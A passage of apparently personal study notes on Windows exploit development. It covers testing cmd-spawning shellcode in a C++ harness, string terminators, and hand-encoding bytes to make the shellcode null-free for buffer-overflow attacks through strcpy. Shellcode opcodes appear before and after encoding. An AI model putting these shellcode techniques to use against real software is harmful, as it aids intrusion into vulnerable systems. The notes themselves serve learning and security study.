 ```
```

- we can test the shellcode, with the c++ debugger code.
- the compiler does not automatically load the Shell32.dll library in the program, we have to force the program to load it with the instruction:
```
	LoadLibraryA("Shell32.dll")
```

> if we do not do that, the program will jump to an empy location, and the shellcode will fail.



## String terminator
Strings terminator are important markers to instruct where the string For the argument ends.
Think of them as ponctuation marks like a '.' or ','
- if we do not use the terminator, the program will get others instruction from the code to get the 4 bytes and it will change the whole code.

### NULL-free shellcode
we did a shellcode that opens a cmd, but it isnt a null-free shellcode.
therefore, if we try to use againts a bof vuln that uses a string function such as strcpy, it will fail.

```
two ways to get rid of null-bytes:
Manual Editing / Encoder tools
```

### Manual Editing
\x68\x63\x6d\x64'\x00'
we need to take that null byte from our code.
- goal: push the bytecodes 00646d63 to the stack
solution: subtract (or add) a specific value in order to remove 00

example:
```
we if subtract 11111111 from 00646d63 = ef535c52 > which does not contain 00
	'we can use whatever value that does not contain 00'

1. moves ef535c52 into a register
2. adds back 11111111 to the register (in order to obtain 00646d63)
3. push the value of the register on the stack
```

- before (with null bytes):
```
"\x68\x63\x6d\x64\x00"
"\x8B\xDC"
```

----------------------------------------------------------------------------------------------------------------

- after (null-free):
```
"\x33\xDB"                            // xor ebx, ebx: zero out ebx
"\xbb\x52\x5c\x53\xef"         // mov ebx, ef535c52
"\x81\xc3\x11\x11\x11\x11" // add ebx, 11111111 (now ebx contains 00646d63)

"\x53"                                   // push ebx
"\x8B\xDC"                           // mov ebx, esp: puts the pointer to the string
```

